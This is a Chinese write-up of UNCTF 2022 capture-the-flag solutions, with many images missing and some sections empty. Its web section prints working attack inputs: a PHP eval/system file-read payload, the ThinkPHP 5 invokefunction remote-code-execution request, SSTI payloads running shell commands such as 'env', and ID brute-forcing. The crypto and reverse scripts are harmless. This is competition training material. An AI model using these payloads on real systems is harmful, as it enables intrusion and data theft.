










# UNCTF 2022  DoK0wn WP

> UNCTF 2022 公开赛 20 名

## Web

### 我太喜欢bilibili大学

点击题目容器链接，发现首页是一个 phpinfo 的界面， <font color="red"> 我们知道在phpinfo 里面能存放一些信息。 </font>  出题人很有可能将 flag 放在里面.


我们可以按 <kbd class="keybord"> ctrl </kbd> + <kbd class="keybord"> f </kbd>&ensp; 在网页上搜索相关字符。

我们又知道unctf 比赛的flag 都是以 `unctf` 开头的，所以我们搜索一下 `UNCTF` 相关的关键字，尝试一下在这个页面内能否找到flag。

发现成功获得 flag 


> 能在这里获得flag是有点意料之外的，后来果不其然出了个修复版 :)


### `ezgame`

打开链接，发现果不其然是一个游戏，而令我有点意料之外的是这个游戏好像有点复杂 (所以想通过完全逆向出游戏代码逻辑,然后获得flag的方式可能有点难)


我们先按 <kbd class="keybord"> F12 </kbd>&ensp; 查看其调用了哪个 JS 文件，发现该网页就调用了 `main.js` ,那么 `main.js` 里面一定是游戏逻辑和渲染代码了。


CTF中游戏类的赛题一般都是以下套路
+ 当游戏失败时，会显示你失败了之类的信息
+ <font color="red"> 而当游戏胜利时，大概率会给我们显示 flag </font> 

<font color="red"> 所以显示flag的代码也一定在里面 </font> ，然后我就搜了一下 `unctf`,看看会不会是以 `console.log('unctf{....}')` 这种方式显示 flag,如果是这种方式的话我们就能直接获得 flag 了。

发现我们确实搜索到了 unctf 这个字样，但是好像并不是 flag


但当我们仔细观察 `unctf` 附近的代码的时候，发现这段代码很有可能就是跟显示flag有关的，**在函数的开头我们可以看见它会判断是否死亡**，当没死亡则执行下面这个函数。


> 而这个函数被混淆，并且进行了一大堆操作，靠我们逆向这个函数的难度非常大。

但我们可以将这个函数复制粘贴到控制台内，看看单独运行这个函数会发生什么。

当我们运行完这个函数之后，果不其然我们成功获得了 flag

`UNCTF{c5f9a27d-6f88-49fb-a510-fe7b163f8dd3}`


### 签到

我们打开网站之后，发现存在一个表单。

我们先别急着进行 sql 注入,我们查看一下它的源码，看看出题人有没有给我们 hint ,毕竟是签到题，难度肯定不会太大。

发现了一个注释，而这个注释看着很像学号，然后我就尝试使用这个当学号和密码进行登入。


发现居然登入成功了,但也就是显示了登入成功，并没有显示flag。

我尝试使用没有密码，只使用学号,发现也成功登入进去.

**根据常识，学号一般都是递增的**，而在护网期间，当红队获得了一个学号、员工号...经常使用的就是遍历这些号码以获得更多的信息。

所以我就想,这边是不是也是考信息泄露这个考点? 


然后我就尝试了一下使用 `20200102` 这个学号登入。

发现服务端给我们返回了 `f` ,说明我们只需要一直遍历下去就能获得flag.


我们可以编写一下代码生成我们的学号字典 (这边先尝试 50 位,一般来说flag不会大于50位)

```python
init_num = 20200101

for i in range(50):
    print(init_num + i)
```
然后运行这条命令 `python ./dict.py > dict`

我们先使用 burpsuite 抓取我们登入的数据包 


然后使用 burpsuite 的爆破功能进行暴力发包。


我们发现当发到第 39 位后面的报文长度为 717 而前面的都为 718
我们尝试查看一下第 39 位看看这一位是不是和我们预料的一样为 `}`，如果一样的话，就更验证了我们的猜想了。

发现这一位确实是 `}` 


所以我们接下来的操作就是将这 39 位的 flag 内容提取出来进行拼接即可。

我们可以将爆破后的返回包全部保存到本地，然后使用 shell 命令进行数据处理即可


这边我编写了一小段 fish 脚本进行数据处理。

```fish
set -l rep_poor (seq 50)
set -l flag
for i in $rep_poor
	set char_i (cat $i | sed -n '30,30p')  # gain the character
	echo $char_i >> result
end
```
运行之后成功获得flag


### `babyphp`

打开链接发现是一个 `apache` 默认界面,之后我尝试了一下访问 `index.php` 发现成功显示了一段 php 代码


> 当然这一步也能通过目录扫描器进行发现 (御剑，dirsearch)

之后就到审计 php 代码的环节了。


我们可以构建以下的 payload 来绕过上面的检测与判断

```
# a=0&key1=aa3OFF9m&key2=aaK1STfY

http://ff3f2fff-97bb-44f6-96aa-79bbf42827e1.node.yuzhian.com.cn/index.php?code=eval($_GET[1]);&1=system('cat ../../../flag.txt');

```


### `easy_upload`

打开链接是一个上传文件的网页


我们随便上传一些文件，发现大部分都说格式错误


但当我上传一张比较小的png图片，发现能成功上传。


所以我们将上传png图片的包进行抓取，<font color=red>然后进行篡改,将php远程执行代码填入其中</font>,看看这次能不能上传成功。发现也能上传成功。

我们访问一下上面给我们提示的文件路径，发现能正常显示图片。

> 这时候我们将php代码上传到服务器，如果还存在一个文件包含的漏洞的话，我们就能成功执行我们想要的远程命令。

到这里，我们思路已经很明确了，<font color=red>就是再去寻找一个文件包含漏洞</font>，然后将我们上传的 php 命令文件包含进去，就能成功返回我们想要的结果。

**我们可以使用目录扫描器扫描一下这个网站，看看能不能发现更多有用的信息**

<font color=red>我们发现了一个 `www.rar` 我们知道 `www.rar` 一般是网站的源码 </font>


我们尝试将这个文件下载下来，下载下来之后，解压我们发现了 `index.php` 的源码

发现这个 `php` 文件存在一个文件包含漏洞,<font color=red>我们只需要给个 `file` 参数，参数后面接要包含的文件路径</font>，(文件名必须要不包含`flag` , `..` , `//` 这些字符)


<div style="border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;">
不过这里有一个小坑，就是flag并不在根目录，也不在网站根目录，而在家目录
</div>

如果实在找不到 flag ，我们可以使用以下方式来查找flag所在位置



也可以发现 flag 在 /home/ctf/flag


然后我们就能先将我们要利用的php代码上传上去，如下


然后访问网站主页传上 `?file=uplO4d/res.png` 这个路径为上传到服务器后的路径


### 给你一刀

打开链接，发现是一个 ThinkPHP 的界面,说明这个网站是由 ThinkPHP 这个框架搭建的。

我们知道 `ThinkPHP_V5` 存在远程任意命令执行漏洞,我们可以去网上查找一下 ThinkPHP 框架的 poc




然后我们查找了服务器上所有带 flag 字样的文件，发现并没有查找到相关文件。

这个时候我们要想到，flag 可能藏在 phpinfo 里面


```
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

运行上面的利用代码，成功在 phpinfo 里面找到flag


### 我太喜欢bilibili大学(修复版)

题目描述说存在两个 Hint 所以我在首页的phpinfo 里面查找了 hint 相关的字样，发现成功获得一个 Hint


它是一段 base64 ,我们对其进行解码，之后发现了一个 `admin_unctf.php`,这个一看就是一个路径


所以我们访问该路径，发现是一个登入表单，我们先查看其源码，看看能不能获得第二个 Hint

发现它叫我们抓个包，既然如此，那我们就抓个包看看。


我们可以使用浏览器的开发者工具里面的 `NetWork` 模块，里面能查看响应包和请求包和头部信息。

**我们在响应包内的头部成功找到 Hint2**


发现还是 base64 对其解码之后，获得表单的登入用户名和密码。


登入之后发现是一段 php 代码


审计代码之后，发现我们只需要传入一个 `Cookie` 并且在 `Cookie` 参数 `cmd` 里设置我们想要的命令，(传入的命令要将 `ping` 命令截断)，就能远程执行我们想要的命令了。

> 这边需要注意的是 `;` 在这个题目内没用，可能是环境问题，这边的解决方案是使用 `|` 号

构造下面的包，然后进行发送，发现服务端成功给我们返回了一段 base64


我对其进行解码之后发现是一个 URL ，


我们访问这个 URL 成功获得flag


```
unctf{this_is_so_easy}
```


### 302与深大

题目为 302 很显然这是一到 302 跳转的题目,我们先访问一下这个网站，在这个网站上并没有发现任何有价值的信息。在根据题目描述：<font color=red>这个页面不是主页</font>


我们可以先使用 `wget/curl` 将最开始的界面给下载下来


发现它叫我们使用<font color=red> GET 方式传一个 `miku=puppy` POST 传一个 `micgo=ikun`</font>

那我们就可以使用 burpsuit 抓包然后将参数填入其中即可, <font color=red>我们不能直接通过 `hackbar` 发包，因为发完包，我们看不到返回结果，就会被跳转到 `saves.html` 这个界面</font>，我们可以通过以下方式来获得返回结果。

+ 先使用 `hackbar` 构造好参数
+ 打开 `burpsuite` 并设置好代理，进行抓包
+ 在 `hackbar` 内点击 `Execute` 进行发包，然后在 `burpsuite` 这里我们将抓到我们将要发送的数据包，我们将其发送到 `burpsuite` 的 `Repeater` 模块内
+ 然后在 `burpsuite` 内的重放模块进行发包，这时候将不会跳转。


发现它说我们已经认识了请求方式，说明我们刚刚做的步骤没有错，然后又返回了一个只有 admin 才能看到 flag，Cookie 的参数是 admin。而且上一句话就是认识 Cookie 欺骗，认证，伪造。

**很显然我们需要伪造一个 `Cookie` 让网站认为我们是 `admin`**

我们知道设置 `Cookie` 的方式就是在请求头上添加一行 `Cookie: key=value` 这种形式的内容。

> 一开始我尝试了很多方式 `Cookie: user=admin/Cookie: admin=1...` <font color=red>后面发现是 `Cookie: admin=true`</font>


当我们把所有的参数和伪造信息都弄号之后，发现服务器给我们返回了很长的响应内容，我们将其保存到本地，然后使用浏览器将其打开之后，发现是一个 phpinfo 的界面，我们在网页上搜索 `unctf` 成功获得 `flag`


### `easy_ssti`

题目描述说 php 看累了，那就看看 python 代码吧，说明这个题目是考 python 的模板注入

我们知道 flask 等python框架使用的是 `{{}}` 这个模板，所以我们可以尝试在表单上提交这个模板，看看会不会报错，或者给我们执行命令.

我尝试了以下方式，`secho{{3+3}}`


发现好像真的给我们执行了 `3+3` 这个语句，并成功给我们返回了 6


然后我就尝试了一下这个命令 `secho{{"".__class__}}`，看看我们能不能使用 `__Class__` 来构造任意的命令


发现服务端可能禁止我们使用 `__class__` 后面我尝试了一下，发现好像只要存在 `class` 这个字样就会给我们这个弹窗。

>  一开始我想的是会不会是本地 `js` 判断这个输入框的内容，只要含有 `class` 就给我们弹窗。然后我就将 js 禁用了，发现当我们输入框内含有 `class` 时还是会弹窗。

这就说明这个验证，判断是在服务端内进行的，我们还知道我们不一定要使用 `__class__` 才能构造poc，我们还可以通过很多方式构造 RCE ，<font color=red>在` hackbar` 内存在一些不同方式构造 `ssti` 的 `RCE`</font>

如下图，我们可以使用 `self` 来构建我们的 RCE


这时候我们的 post 请求就变成下面这一段 payload 了。

```python
pwd=1&user={{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}
```

运行完之后，发现成功给我们返回 `ls` 命令的结果，说明这个 RCE 我们利用成功了。


发现里面有个 `flag.txt` 使用下面这个 payload 发现是个假的 `flag`

```python
pwd=1&user={{self.__init__.__globals__.__builtins__['__import__']('os').popen('cat ./flag.txt').read()}}
```

找了好久，最后在环境变量里面成功找到 `flag` 对应的 payload 如下，其实我们只需要将 `popen('command')`  里的 `command` 改成我们想让服务器执行的 `shell` 命令即可。

```python
pwd=1&user={{self.__init__.__globals__.__builtins__['__import__']('os').popen('env').read()}}
```

运行完这个 payload 之后我们成功获得 flag


### 听说php有个xxe

我们打开链接，发现只有一段话，如下：


看到这里的时候，我就在想会不会要我们传一个 `GET/POST` 请求参数叫 `hint `?

尝试一下之后发现不行。

<font color=red>然后我们就对这个链接进行了目录扫描和发现，发现我们还能访问 `dom.php`</font>


## Pwn

### welcomeUNCTF

使用 ida 逆向分析，发现我们只需要输入 `UNCTF&2022` 即可获得flag


我们使用 nc 链接其服务器，然后输入 `UNCTF&2022` 即可


### 石头剪刀布





编写 exp 

```python
from pwn import *
import random

proc = process("./pwn")

proc.recvuntil(b'later?(y/n)')
proc.sendline(b'y')

content = [0, 1, 2]

know_list = [
    0, 0, 1, 1, 2, 1, 1, 0, 1, 1, 1, 1, 2, 2, 1, 0, 2, 0, 1, 2, 2, 0, 0, 0, 0,
    1, 0, 0, 0, 2, 2, 1, 2, 0, 1, 2, 2, 0, 2, 1, 0, 1, 0, 1, 2, 0, 0, 0, 2, 2,
    1, 2, 1, 0, 1, 0, 2, 2, 1, 1, 0, 0, 1, 0, 1, 1, 1, 1, 0, 2, 1, 2, 1, 2, 2,
    0, 1, 1, 1, 2, 2, 0, 2, 0, 2, 2, 1, 2, 0, 2, 2, 1, 0, 0, 0, 0, 2, 0, 0, 1
]

know_length = len(know_list)

for i in range(len(know_list)):
    proc.sendline(bytes(str(know_list[i]), encoding='utf-8'))
proc.interactive()
```


## Reverse





### whereisyourkey

```python
compare = [118, 103, 112, 107, 99, 109, 104, 110, 99, 105]
flag = []


def foo(chr_i):
    if ord(chr_i) == ord('m'):
        return chr_i
    if ord(chr_i) <= 111:
        if ord(chr_i) <= 110:
            return chr(ord(chr_i) - 2)
    else:
        return chr(ord(chr_i) + 3)


print("-------------")
for i in compare:
    print(chr(i), end='')

print()
for i in compare:
    res = foo(chr(i))
    print(res, end='')
print()

```

### ezzzzre


```python

```


### ezast


```js
function ezdecode(flag, key) {
	var arr_data = flag.split("");
	return arr_data.map((i) => String.fromCharCode(i.charCodeAt ^ (key + 1)).join(""));
}
var $_a = test();

$_a -= 1145 * 100;

$_a += 0xb;

console.log(ezdecode("OTYN\\a[inE+iEl.hcEo)ivo+g", $_a));

function test() {
	return 114514;
}
```

编写 exp 

```python
key = 26 # 114514 - (1145 * 100) + 0xb

flag = "OTYN\\a[inE+iEl.hcEo)ivo+g"

for i in flag:
    print(chr(ord(i) ^ key), end='')
```


## Crypto


### md5-1

```python
from string import printable
import hashlib

if __name__ == '__main__':
    with open("./out.txt", 'r') as reader:
        hash_content = [i.strip() for i in reader.readlines()]
    for hash_str in hash_content:
        for i in printable:
            hashobj = hashlib.md5()
            hashobj.update(i.encode("utf-8"))
            res = hashobj.hexdigest()
            if res == hash_str:
                print(i, end='')
            else:
                pass
```


### dddd


### caesar

```python
table = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

flag = "B6vAy{dhd_AOiZ_KiMyLYLUa_JlL/HY_}"
for i in range(len(flag)):
    res = table.find(flag[i])
    if res == -1:
        print(flag[i], end='')
    else:
        print(table[(res + 19) % len(table)], end='')
```

### md5-2

```python
from hashlib import md5
import hashlib

from string import printable


def str2hash(charset: str):
    hashobj = hashlib.md5()
    hashobj.update(charset.encode("utf-8"))
    chr_hash = hashobj.hexdigest()
    return chr_hash


def crack_hash(reshash):
    # because the str2hash will return 32 bits result like: str2hash('C') will return '0d61f8370cad1d412f80b84d143e1257'
	# but the hex(int(hex,16)) will strip the zero in the prefix
	# for example hex(int('0dff',16)) will return '0xdff' the prefix zero info will be lost
    assert (len(reshash) <= 32) 
    if (len(reshash) != 32):
        offset_zero = 32 - len(reshash)
        reshash = '0' * offset_zero + reshash
    assert (len(reshash) == 32)
    for chri in printable:
        hashi = str2hash(chri)
        if hashi == reshash:
            return chri
    return '.'


with open("./out.txt", 'r') as reader:
    lines = [line.strip() for line in reader.readlines()]

flag = ""
for index, value in enumerate(lines):
    if index == 0:
        flag += crack_hash(value)
    else:
        temp_hex = hex(int(str2hash(flag[-1]), 16) ^ int(value, 16))[2:]
        flag += crack_hash(temp_hex)
print(flag)
```

```
UNCTF{a197271943ceb3c3fe98bcadf10c29d4}
```


### ezRSA

```python
import libnum
import binascii

p = 89065756791595323358603857939783936930073695697065732353414009005162022399741
n = 62927872600012424750752897921698090776534304875632744929068546073325488283530025400224435562694273281157865037525456502678901681910303434689364320018805568710613581859910858077737519009451023667409223317546843268613019139524821964086036781112269486089069810631981766346242114671167202613483097500263981460561

e = 65537
c = 56959646997081238078544634686875547709710666590620774134883288258992627876759606112717080946141796037573409168410595417635905762691247827322319628226051756406843950023290877673732151483843276348210800329658896558968868729658727981445607937645264850938932045242425625625685274204668013600475330284378427177504

phi_n = p ** 4 - p ** 3

d = libnum.invmod(e, phi_n)
res = pow(c, d, n)

flag = hex(res)[2:]

print(binascii.unhexlify(flag))

```

### Single table

打开文件，一看就知道是变异的 playfair 密码,只是 playfair 是将字符加在前面，这个是弄在后面

> 这道题在比赛时我是手撕的,虽然当时我已经写好了正常 playfair 加解密脚本

唯一需要注意的地方是因为单数，最后解出来会多一个x我们需要将这个X 给删掉即可

`UNCTF{GOD_YOU_KNOW_PLAYFAIRX}`

```python
#! /usr/bin/env python3
# @author zhouhao 2022-11-16 08:23
from string import ascii_lowercase

class Eplayfair:

    def __init__(self, plaintext: str, key: str):
        assert (isinstance(plaintext, str))
        assert (isinstance(key, str))
        self.__plaintext = plaintext
        self.__key = key
        self.__table = []

    @property
    def plaintext(self):
        return self.__plaintext.lower()

    @property
    def key(self):
        return self.__key.lower()

    @property
    def table(self):
        # gen table and return table
        if len(self.__table) == 0:
            return self.__table
        else:
            self.preprocess()
            return self.__table

    def ptable(self):
        # print the playfair two dimension table
        assert (len(self.table) > 0) # it will call the table() function
        for i in range(len(self.__table)):
            print(self.table[i])

    def preprocess(self):
        plaintext = self.plaintext
        key = self.key
        template_list = list(ascii_lowercase)
        contrast_table = []
        preprocessed_ptext = []

        # +---------------------------------------------+
        # |  if q in keys or plaintext: (i replace j)   |
        # |  else do not use q                          |
        # +---------------------------------------------+

        # preprocess the plaintext (strip the special char like ({}(*=).,) ...)
        for i in plaintext:
            if i not in ascii_lowercase:
                plaintext = plaintext.replace(i, '')
            else:
                ...

        if (len(plaintext) % 2 != 0):
            plaintext += 'x'

        assert (len(plaintext) % 2 == 0)

        # eg: flag{aabbc} -> ["fl","ag","ax",'bx','cx'] contain in preprocessed_ptext
        for i in range(0, len(plaintext), 2):
            temp = plaintext[i:i + 2] # represent a group
            # if len(flag) is even number
            if temp[0] == temp[1]:
                res = temp[0] + 'x'
                preprocessed_ptext.append(res)
            else:
                pass

        # if q in key or plaintext then merge the j and i
        plaintext = plaintext.replace('j', 'i')
        key = key.replace('j', 'i')
        template_list.remove('j')

        for i in key:
            if i in set(template_list):
                template_list.remove(i)
            else:
                print("error!!")
                exit(-1)

        template_list.extend(key)
        contrast_table = template_list

        # double check the generated table's length must be 25
        assert (len(contrast_table) == 25)
        """ 
        ---------------------------------------------------------------------------------
          [follow line function] split the list five by five.
          List comprehension,if you want to know more about this,you can follow blow link.
          https://en.wikipedia.org/wiki/List_comprehension
          eg: [1,2,3,4,5,6,7,8,9,10] -> [[1,2,3,4,5],[6,7,8,9,10]].
        ---------------------------------------------------------------------------------
        """
        self.__table = [contrast_table[i:i + 5] for i in range(0, 25, 5)]
        return plaintext, self.__table

    def process(self):
        """
        this function will generate the plaintext
        """
        # generator https://realpython.com/introduction-to-python-generators/
        plaintext, table = self.preprocess()
        for i in range(len(plaintext)):
            for row in range(len(table)):
                for col in range(len(table[row])):
                    if plaintext[i] == table[row][col]:
                        yield (row, col)
                    else:
                        pass

    def decode(self):
        gen_mechine = self.process()
        processed_data = []
        # gain all data
        while True:
            try:
                processed_data.append(next(gen_mechine))
            except StopIteration:
                temp = [
                    processed_data[i:i + 2]
                    for i in range(0, len(processed_data), 2)
                ]
                # temp format : [[(1,2),(3,4)],[(3,2),(2,4)],...]
                # [
                #  [(1,2),(3,4)],
                #  [(3,2),(2,4)],
                #   ...
                # ]

                decrypted_data = ""
                # This Code Segment Can Be Optimized! (below)
                # All in all this code is contrast the table and return the result
                for i in range(len(temp)):
                    lhs_xcoord_i = temp[i][0][1]
                    lhs_ycoord_i = temp[i][0][0]
                    rhs_xcoord_i = temp[i][1][1]
                    rhs_ycoord_i = temp[i][1][0]
                    if lhs_xcoord_i == rhs_xcoord_i: # the same colums
                        decrypted_data += self.table[(lhs_ycoord_i - 1) %
                                                     5][lhs_xcoord_i]
                        decrypted_data += self.table[(rhs_ycoord_i - 1) %
                                                     5][rhs_xcoord_i]
                    elif lhs_ycoord_i == rhs_ycoord_i: # the same rows
                        decrypted_data += self.table[lhs_ycoord_i][
                            (lhs_xcoord_i - 1) % 5]
                        decrypted_data += self.table[rhs_ycoord_i][
                            (rhs_xcoord_i - 1) % 5]
                    else:
                        decrypted_data += self.table[rhs_ycoord_i][
                            lhs_xcoord_i]
                        decrypted_data += self.table[lhs_ycoord_i][
                            rhs_xcoord_i]
                self.encdata = decrypted_data
                print(decrypted_data)
                exit(0)


if __name__ == '__main__':
    eins = Eplayfair("OTUBM{BCQS_PHW_OQAU_AYFMKLWS}", "PLAY")
    eins.preprocess()
    eins.ptable()
    print("flag is :")
    eins.decode()
```


### Multi table

```python
from string import ascii_uppercase

flag = "SDCGW{MPN_VHG_AXHU_GERA_SM_EZJNDBWN_UZHETD}"
base_table = [
    'J', 'X', 'I', 'S', 'E', 'C', 'R', 'Z', 'L', 'U', 'K', 'Q', 'Y', 'F', 'N',
    'V', 'T', 'P', 'O', 'G', 'A', 'H', 'D', 'W', 'M', 'B'
]
key = [9, 15, 23, 16]

# Vigenère Cipher Table
# abcdefghijklmnopqrstuvwxyz
# bcdefghijklmnopqrstuvwxyza
# cdefghijklmnopqrstuvwxyzab
# defghijklmnopqrstuvwxyzabc
# efghijklmnopqrstuvwxyzabcd
# fghijklmnopqrstuvwxyzabcde
# ghijklmnopqrstuvwxyzabcdef
# hijklmnopqrstuvwxyzabcdefg
# ijklmnopqrstuvwxyzabcdefgh
# jklmnopqrstuvwxyzabcdefghi
# klmnopqrstuvwxyzabcdefghij

table = {}
for i in range(26):
    table[i] = ascii_uppercase[i:] + ascii_uppercase[:i]

c = ''
x = 0
result = ''
for i in range(len(flag)):
    if flag[i] in ascii_uppercase:
        offset = table[key[x % 4]].find(flag[i])
        temp = base_table[offset]
        result += temp
        x += 1
    else:
        result += flag[i]
print(result)

```
### 今晚吃什么

一看题目就想到了培根密码


解成 `RRRA...` 之后发现这个还能进行培根解码

`RRRARARRRRARAARRAAARARRRRRAARARARRRARRRARRARAARRAARAARR`

> 当时提交这个题目的时候，显示错误，我还以为是我的思路有问题，但是看解码出来的东西又不像错误的,原来是主办方设置错了。


### Today_is_Thursday_V_me_50

```python
import random
import itertools
from Crypto.Util.number import *
from Crypto.Util.strxor import strxor

name = "unctf"
key1 = "Today_is_Thursday_V_me_50" # 25
key1_num = bytes_to_long(key1.encode('utf-8'))


def crack_2(message, key):
    random.seed(key)
    res = b""
    for i in message:
        temp_num = random.randint(1, 128)
        res += long_to_bytes(temp_num ^ i)
    return res


def crack_1(message, key):
    name = "unctf"
    guess = [i for i in itertools.permutations(name, 5)]
    res = bytes()
    for i in range(4):
        what = guess.pop(50) # random poor
        name = ''.join(j for j in what)
        mask = strxor(bytes(name * 5, encoding='utf-8'),
                      bytes(key, encoding='utf-8'))

        res = strxor(mask, message)
    return res


if __name__ == '__main__':
    crypto_data = b'Q\x19)T\x18\x1b(\x03\t^c\x08QiF>Py\x124DNg3P'
    res = crack_2(crypto_data, key1_num)
    print(res)
    myflag = crack_1(res, key1)
    print(myflag)
```

### Alien's_secret


我们将这个图片放入 google 搜图，成功找到其加密方式的网站


[Alian font used in the background](http://uazu.net/notes/alien.html)

就是单表替换，我们对照上面这张表，就能获得 flag
## Misc

### magic_word

下载附件之后，发现里面有一个 `doc` 文档，这边使用 linux 的 `libreoffice` 办公软件打开之后发现了一大堆乱码


我们先将文档全选复制一下,保存到 vim 里, <font color="red"> 发现是零宽隐写 </font>


这边我使用一个[在线网站](http://330k.github.io/misc_tools/unicode_steganography.html) 来进行零宽隐写解码 


解码之后成功获得 flag 
```
UNCTF{We1come_new_ctfer}
```

### 找得到我吗

下载附件解压之后，打开发现是一个 word 文档

我们打开之后并没有发现任何东西，但是我们知道我们能将字体变成白色，达到隐写内容的目的。


我们全选word文档内的东西，发现真的能够被全选，然后我们修改一下字体颜色。

发现里面显示了一段文字,但好像并没有什么有用的信息,在里面发现了一个关键字 `font`。


而 word 文档其实是一个压缩形式的文档，我们可以使用binwalk，或者将其后缀改为 zip 然后解压获得里面的东西。


